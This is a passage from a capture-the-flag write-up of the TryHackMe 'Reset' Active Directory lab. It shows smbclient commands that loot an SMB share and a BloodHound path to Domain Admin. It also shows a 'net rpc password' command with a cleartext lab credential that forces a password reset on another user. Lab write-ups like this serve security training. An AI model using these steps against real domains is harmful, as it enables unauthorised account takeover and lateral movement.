 Lets access **<span style="color:#f04276">Data</span>** share with <mark style="background: #FF5582A6;">smbclient</mark> Tool.
```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ smbclient //10.10.199.27/Data -U TABATHA_BRITT
Password for [WORKGROUP\TABATHA_BRITT]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Feb 29 16:03:59 2024
  ..                                  D        0  Thu Feb 29 16:03:59 2024
  onboarding                          D        0  Thu Feb 29 16:05:05 2024

		7863807 blocks of size 4096. 3019472 blocks available
smb: \> cd onboarding\
smb: \onboarding\> ls
  .                                   D        0  Thu Feb 29 16:05:35 2024
  ..                                  D        0  Thu Feb 29 16:05:35 2024
  31z2jjau.krr.pdf                    A  4700896  Mon Jul 17 13:41:53 2023
  nijgpbi2.5jx.txt                    A      521  Mon Aug 21 23:51:59 2023
  tr0ecfbs.0wv.pdf                    A  3032659  Mon Jul 17 13:42:09 2023

		7863807 blocks of size 4096. 3019472 blocks available
smb: \onboarding\> cd ..
smb: \> prompt off
smb: \> recurse on
smb: \> mget *
getting file \onboarding\2v3t4m3a.m4z.pdf of size 3032659 as onboarding/2v3t4m3a.m4z.pdf (207.4 KiloBytes/sec) (average 207.4 KiloBytes/sec)
getting file \onboarding\jn0hqwsd.nsz.pdf of size 4700896 as onboarding/jn0hqwsd.nsz.pdf (261.5 KiloBytes/sec) (average 237.2 KiloBytes/sec)
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \onboarding\mou3esxj.0w0.txt
smb: \>
```
{: .nolineno}
{: .nolineno}

![Image](Pasted%20image%2020240229161235.png)
_Pdf file on slide 7 I got creds_
I started bloodhound as I collected the data from <mark style="background: #FF5582A6;">bloodhound-python</mark> ingestor Tool and got this path that leads me to Domain Admin ->
![Image](Pasted%20image%2020240229225020.png)
_BloodHound data to Domain Admin_
I need to perform <mark style="background: #D2B3FFA6;">GenericAll</mark> on user <span style="color:#61ffe5">SHAWNA_BRAY</span> to move laterally into the network. 
![Image](Pasted%20image%2020240229225223.png)
_Path for GenericAll permission Abuse_
I followed the kerberoast method that works similar to <mark style="background: #FF5582A6;">GetUserSPNs.py</mark> Tool from impacket.
After that I have to perform <mark style="background: #D2B3FFA6;">Force Change Password</mark> that will change the password of the user <span style="color:#61ffe5">SHAWNA_BRAY</span> so I did it ->
![Image](Pasted%20image%2020240229225512.png)
_According to BloodHound Tool_
I did it like this and verified it with netexec Tool ->
```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ net rpc password "SHAWNA_BRAY" "StrongShiv8" -U "thm.corp"/"TABATHA_BRITT"%'marlboro(1985)' -S "thm.corp"  
```
{: .nolineno}
{: .nolineno}
![Image](Pasted%20image%2020240229225650.png)
_I got access of SMB and RDP services_